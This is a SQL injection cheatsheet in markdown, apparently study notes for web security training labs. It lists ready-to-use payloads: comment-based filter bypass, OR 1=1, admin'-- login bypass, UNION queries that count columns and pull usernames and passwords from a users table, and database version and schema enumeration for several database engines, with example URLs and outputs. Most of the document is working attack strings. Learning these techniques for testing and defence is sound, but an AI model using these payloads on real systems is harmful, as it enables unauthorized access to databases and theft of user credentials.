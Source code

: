 # SQL Injection Cheatsheet

## Common Injection Points
- `WHERE` clause
- `INSERT` statements
- `SELECT` table/column names
- `ORDER BY` clause

---

## Retrieving Hidden Data
- **Basic Injection**: `'--`
  - `https://site.com/products?category=Gifts'--`
  - Bypasses filters.
- **Retrieve All Data**: `' OR 1=1--`
  - `https://site.com/products?category=Gifts'+OR+1=1--`
  - Returns all products.
- **Quick Tips**:
  - Append `'--` to ignore filters.
  - Use `OR 1=1` to retrieve everything.

---

## Bypassing Authentication
- **Bypass Login**: `administrator'--`
  - Username: `admin'--`
  - Password: (anything or blank)
  - Logs in without a password.

---

## SQL Injection UNION Attacks

### 1. Find Number of Columns
- **Using `ORDER BY`**:
  - `' ORDER BY 1--`
  - Increment until an error occurs.
- **Using `UNION SELECT NULL`**:
  - `' UNION SELECT NULL--`
  - Add `NULL` until no error occurs.

### 2. Identify Usable Columns
- `' UNION SELECT 'a',NULL,NULL--`
- `' UNION SELECT NULL,'a',NULL--`
- `' UNION SELECT NULL,NULL,'a'--`
- Column where `'a'` appears supports string data.

### 3. Extract Data
- `' UNION SELECT username, password FROM users--`
  - Retrieves usernames and passwords.

**Example**:
- `https://site.com/products?category=Gifts' UNION SELECT username, password FROM users--`

---

## Finding Columns with String Data

### 1. Steps
1. Find number of columns (`ORDER BY` or `UNION SELECT NULL`).
2. Test string compatibility by injecting `'a'`.

### 2. Payloads (for 4 columns)
- `' UNION SELECT 'a',NULL,NULL,NULL--`
- `' UNION SELECT NULL,'a',NULL,NULL--`
- `' UNION SELECT NULL,NULL,'a',NULL--`
- `' UNION SELECT NULL,NULL,NULL,'a'--`

### 3. Interpretation
- **Success**: `'a'` appears → column supports string data.
- **Error**: Data type mismatch.

**Example**:
- `https://site.com/products?category=Gifts' UNION SELECT NULL,'a',NULL--`
- Confirms if the second column supports string data.

---

## SQL Injection: Examining the Database

### Determine Database Type and Version
- **Microsoft, MySQL**: `SELECT @@version`
- **Oracle**: `SELECT * FROM v$version`
- **PostgreSQL**: `SELECT version()`
- **Example**: `' UNION SELECT @@version--`
  - Output: Identifies database type and version.

---

### Listing Database Contents
#### Non-Oracle Databases
- **List Tables**: `SELECT * FROM information_schema.tables`
- **List Columns in a Table**: `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

#### Oracle Databases
- **List Tables**: `SELECT * FROM all_tables`
- **List Columns**: `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

---

## SQL Injection: UNION Attacks

### Retrieve Data from Other Tables
- **Basic Attack**: `' UNION SELECT username, password FROM users--`
  - Requires knowledge of table and column names.

### Retrieve Multiple Values in One Column
- **Oracle**: `' UNION SELECT username || '~' || password FROM users--`
  - Uses `||` for string concatenation.
- **Example Output**:
  ```
  administrator~s3cure
  wiener~peter
  carlos~montoya
  ```
- **Different databases have different concatenation syntax.**

---

### Examining the Database in SQL Injection Attacks

#### **Determining Database Type and Version**

Use the following queries to identify the database type and version:

| Database | Query |
|----------|---------------------------------|
| Microsoft SQL Server | `SELECT @@version` |
| MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

**Example UNION Attack:**
```sql
' UNION SELECT @@version--
```
**Example Output (Microsoft SQL Server):**
```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Standard Edition (64-bit) on Windows Server 2016
```

---

#### **Listing Database Contents**

Most databases (except Oracle) use `information_schema` to list database objects.

##### **List All Tables**
```sql
SELECT * FROM information_schema.tables
```
**Example Output:**
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
--------------------------------------------------
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

##### **List Columns in a Table**
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
**Example Output:**
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
----------------------------------------------------------------
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

---

#### **Listing Database Contents on Oracle**

##### **List All Tables**
```sql
SELECT * FROM all_tables
```

##### **List Columns in a Table**
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

